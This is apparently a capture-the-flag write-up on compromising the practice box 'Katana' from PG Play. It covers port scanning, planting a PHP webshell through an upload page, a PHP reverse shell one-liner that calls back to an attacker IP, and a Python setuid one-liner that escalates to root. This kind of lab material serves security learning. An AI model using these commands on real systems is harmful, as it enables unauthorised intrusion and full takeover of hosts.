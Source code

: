 # PG Play - Katana

#### Ip: 192.168.171.83
#### Name: Katana
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.83
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.070s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
8715/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -sC -sV 192.168.171.83 -p 21,22,80,7080,8088,8715
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.065s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid LiteSpeed
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-title: Did not follow redirect to https://192.168.171.83:7080/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
8088/tcp open  http          LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp open  http          nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Heading over to the site we find just a basic image, with no functionality:

![site.png](../assets/katana_assets/site.png)

Lets use Feroxbuster to see if we can discover any interesting directories against the HTTP ports:

![ferox.png](../assets/katana_assets/ferox.png)

Cool, the `/upload.html` directory seems interesting

![upload.png](../assets/katana_assets/upload.png)

Lets upload a copy of the wwwolf-php-webshell and see what we can do with it.

Once uploaded we see this message:

![moved.png](../assets/katana_assets/moved.png)

Ok interesting, looks like the file was uploaded, but I'm seeing a message that it's been moved to another server.

After some trial and error I found our script at http://192.168.171.83:8715/katana_webshell.php where I could confirm that we had execution on the target:

![host.png](../assets/katana_assets/host.png)

Lets grab a reverse shell one-liner from https://www.revshells.com/ and get a proper shell to work in:

### Exploitation

Because I know that the box plays nice with PHP, I'll use:

```text
php -r '$sock=fsockopen("192.168.45.197",443);exec("sh <&3 >&3 2>&3");'
```

Which gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.171.83] 56092
whoami
www-data
hostname
katana
python -c 'import pty;pty.spawn("/bin/bash")'


www-data@katana:/opt/manager/html$
```

From here I can from the local.txt flag in `/var/www`:

![user_flag.png](../assets/katana_assets/user_flag.png)

### Privilege Escalation

Lets upload a copy of LinPEAS to the target to help enumerate a privilege escalation vector:

![transfer.png](../assets/katana_assets/transfer.png)

Cool, LinPEAS finds that Python has capabilities set. This should make for an easy privesc:

![cap.png](../assets/katana_assets/cap.png)

Lets run:

```text
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Which drops us into a root shell:

```text
www-data@katana:/tmp$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

We can now grab the proof.txt flag:

![root_flag.png](../assets/katana_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------

